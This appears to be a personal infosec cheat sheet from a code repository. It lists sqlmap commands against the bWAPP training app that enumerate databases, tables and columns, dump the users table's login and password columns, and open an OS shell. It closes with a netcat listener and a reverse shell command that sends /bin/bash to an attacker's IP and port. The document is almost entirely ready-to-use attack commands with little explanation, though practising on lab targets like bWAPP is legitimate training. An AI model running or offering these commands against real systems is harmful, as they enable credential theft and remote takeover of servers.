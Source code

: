 # Infosec
My InfoSec Cheat sheet and stuff


------

sqlmap 

------

OK so we've got SQLMap, but how do we release it upon our target?
INJECTION TESTING
Gathering commonly needed elements
Cookies
POST data (if data not in URL)
sqlmap --url="http://bee-box/bWAPP/slqi_1.php?title=iron" --dbs
--dbs info is found using the -hh option of sqlmap
Add --cookie="security_level=0;PHPSESSID=xxxxxx"
the bwapp app requires it
If POST then add --data="title=iron&action=search"
Input data and parameters are usually found in the request BODY
So we have a good injection point and even enumerated the name of the database,
but how do we get at the data?
Enumerate the Table names
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --tables
Enumerate Columns
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users --
columns
Dump database data from table 'users' from columns 'login' and 'password'
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users -C
login,password --dump
Any other useful tricks?
How about COMMAND EXECUTION?
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --os-shell


----------

nc shell

----------

nc -nvlp 9999 (attacker)

nc -nv -e /bin/bash IP PORT

